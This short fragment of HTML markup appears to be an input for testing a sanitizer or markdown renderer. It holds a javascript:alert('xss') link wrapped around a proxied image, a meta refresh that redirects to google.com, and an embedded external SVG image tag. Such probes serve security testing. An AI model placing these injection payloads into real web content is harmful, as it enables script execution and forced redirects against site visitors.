<img src="https://sinbadconnect.com/storage/company/image35.svg">
<div class="cm-line" dir="auto"><span class="ͼ1j">&lt;</span>img <span class="ͼ1l">src</span>=<span class="ͼ1k">"https://sinbadconnect.com/storage/company/image35.svg"</span><span class="ͼ1j">&gt;</span></div>
<meta http-equiv="refresh" content="4; URL='https://www.google.com'" /> 
<a target="_blank" rel="noopener noreferrer nofollow" href="javascript:alert('xss')"><img src="https://camo.githubusercontent.com/7a6e7d49aba99d3e674b274f02fdbfb78085e8108553ea7097f9a57acf25ac02/68747470733a2f2f73696e626164636f6e6e6563742e636f6d2f73746f726167652f636f6d70616e792f696d61676533352e737667" data-canonical-src="https://sinbadconnect.com/storage/company/image35.svg" style="max-width: 100%;"></a>


